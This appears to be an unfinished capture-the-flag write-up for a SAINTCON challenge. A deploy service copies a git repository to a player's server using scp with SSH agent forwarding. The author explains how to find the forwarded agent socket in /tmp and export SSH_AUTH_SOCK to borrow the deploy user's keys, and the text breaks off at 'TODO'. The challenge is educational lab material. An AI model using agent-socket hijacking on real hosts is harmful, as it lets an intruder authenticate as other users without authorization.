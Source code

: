 # Super Cool Secret Project

I built this service to automatically deploy my application to all the servers that want to run it.

All you have to do is provide a SSH username, and host, and I will connect and give you a copy of the app. Please accept my public key.

http://deployserver.youcanhack.me/

![deployserver.youcanhack.me](./deployserver.jpg)

## Solution

We're given access to deployserver which will deploy an application to a server under our control. A public SSH key is provided that we need to add to a user's .ssh/authorized_keys file on our server. This will allow the deployserver to authenticate with our server over ssh. After the public key is added - we provide the username, hostname, port number and then submit the form. After doing so, we see the message '--- SSH Attempted ---'. Let's go take a look at the user's home directory and see if it deployed anything.

```
➜ ls -1
HC2023-SuperCoolSecretProject
```

We see that it did in fact deploy an app called 'HC2023-SuperCoolSecretProject' to our user's home directory. When we change into the directory and list the contents, we see that it's a git repository with a README:

```
➜ cd HC2023-SuperCoolSecretProject && ls -lah
total 20K
drwxr-xr-x. 3 hc hc 4.0K Nov  1 02:10 .
drwx------. 7 hc hc 4.0K Nov  1 02:48 ..
drwxrwxr-x. 8 hc hc 4.0K Nov  1 02:47 .git
-rw-r--r--. 1 hc hc   24 Nov  1 02:10 .gitignore
-rw-r--r--. 1 hc hc   25 Nov  1 02:10 README.md
```

Not much in the README:
```
➜  cat README.md
# SuperCoolSecretProject
```

A quick grep reveals a .flag file is being ignored via the gitignore.
```
➜  HC2023-SuperCoolSecretProject git:(main) grep -R 'flag' .
./.gitignore:.flag
```

Hm, well let's take a look at the git log and see what history exists in version control. It's possible the file was committed to the repo at one point and then was later removed. If that's the case there's a chance it wasn't removed properly from the repo and we may be able to recover it.

```
➜  git log
78aba76 - (grafted, HEAD, origin/main, origin/HEAD, main) oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
```

It looks like zevlag removed a secret from the repo. Perhaps our flag? Let's take a look at the git diff for that commit and see what changed. If we're lucky, he didn't remove it from the repo the proper way and we may be able to see it.

```diff
➜  git show 78aba76
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
diff --git a/README.md b/README.md
new file mode 100644
index 0000000..2308fa5
--- /dev/null
+++ b/README.md
@@ -0,0 +1 @@
+# SuperCoolSecretProject
```

Dang, no flag and there are no other commits. It seems it was removed the proper way. That's good. So.. there must be something else. Let's think about this. Git repositories generally have a 'remote' that specifies where it's hosted and can be fetched and pushed. Perhaps the secret still exists in the remote repository? Let's check and see what this repository's remotes are set to:

```
➜  git remote -v
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (fetch)
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (push)
```

Great, that's something. It's host on github and has an ssh origin url. That means the repository can be pulled and pushed to over ssh with public key authentication. We know the deployserver used ssh to securely copy the repository onto our server. Let's re-evaluate the commands that were used to do that:

```
git clone --depth 1 {censored URL}
scp -P {port} -rCA ~/SuperCoolSecretProject {user}@{host}:~/HC2023-SuperCoolSecretProject
```

Interesting.. The repository was cloned down with the same user that then securely copied the repository onto our server. In order to clone the repository, the user must have authenticated over ssh since the remote origin urls are ssh urls. Let's take a look at the options that were passed to the `scp` command (`-rCA`) to fully understand what it's doing. The `r` option means copy recursively and the `C` option enables compression which reduces the total bandwidth needed for the transfer. The `A` option doesn't appear to be a valid / documented scp option. However, if you use ssh often, you may know that `-A` is a valid option for `ssh`: If we RTFM:

```
-A      Enables forwarding of connections from an authentication agent such as ssh-agent(1).  This can also be specified on a per-host basis in a configuration file.

        Agent forwarding should be enabled with caution.  Users with the ability to bypass file permissions on the remote host (for the agent's UNIX-domain socket) can access the local agent through the forwarded connection.  An attacker cannot obtain key
        material from the agent, however they can perform operations on the keys that enable them to authenticate using the identities loaded into the agent.  A safer alternative may be to use a jump host (see -J).
```

If someone is able to access the forwarded SSH_AUTH_SOCK, they could export it and use it as their own. We may be able to do exactly that. Just from experience, we know SSH_AUTH_SOCK is exported to /tmp by default with the pattern 'ssh-XXXXXXXXXX/agent.%d'. Let's take a look in /tmp on the server and see if the deployserver forwarded it's SSH_AUTH_SOCK:

```
➜  ls -lah /tmp/ssh-ARAGypNoQ0/agent.1303
srwxr-xr-x. 1 hc hc 0 Nov  2 03:12 /tmp/ssh-ARAGypNoQ0/agent.1303
```

Yep! It is. From here.. All we need to do is export SSH_AUTH_SOCK to that path in our environment.

```
➜  export SSH_AUTH_SOCK=/tmp/ssh-ARAGypNoQ0/agent.1303
```

Now let's see if we can use this forwarded auth socket to authenticate with the remote repository and pull down any extra history that might exists:

```
➜  git pull
```

TODO